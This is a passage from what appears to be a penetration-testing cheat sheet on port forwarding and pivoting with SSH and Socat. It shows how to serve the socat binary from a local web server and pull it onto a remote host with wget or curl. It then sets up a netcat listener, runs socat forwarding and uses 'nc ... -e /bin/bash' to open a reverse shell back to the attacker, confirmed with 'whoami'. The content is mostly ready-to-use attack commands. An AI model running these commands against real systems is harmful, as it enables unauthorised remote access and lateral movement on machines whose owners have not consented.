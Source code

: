     Now when access to localhost:<local-port>, you can access to <remote-ip>:<remote-port> .
    
    ```sh
    # To stop connection
    ps aux | grep ssh
    kill <PID>
    ```

- **Socat**

    1. **Install Socat in Remote Machine**

        In your local machine, open web server

        ```sh
        cd /usr/bin/
        python3 -m http.server 8000
        ```

        In remote machine, download socat from your local machine.

        ```sh
        wget http://<your-local-ip>:8000/socat -O ./socat
        # or
        curl <your-local-ip>:8000/socat -o ./socat
        ```

    - **Simple Port Forwarding**

        1. **Open Listener in Your Local Machine**

            ```sh
            nc -lvnp <local-port>
            ```

        2. **Run Socat in Remote Machine**

            ```sh
            ./socat tcp-l:<target-port>,fork,reuseaddr tcp:<local-ip>:<local-port> &
            nc <local-ip> <local-port> -e /bin/bash
            ```

            Then you can successfuly port forwarding.

        3. **Confirm in Your Local Machine**

            ```sh
            whoami
            ```

        4. **Stop Port Forwarding**

            ```sh
             # Stop backgrounds
            jobs
            # kill %<NUMBER>
            kill %1
            ```
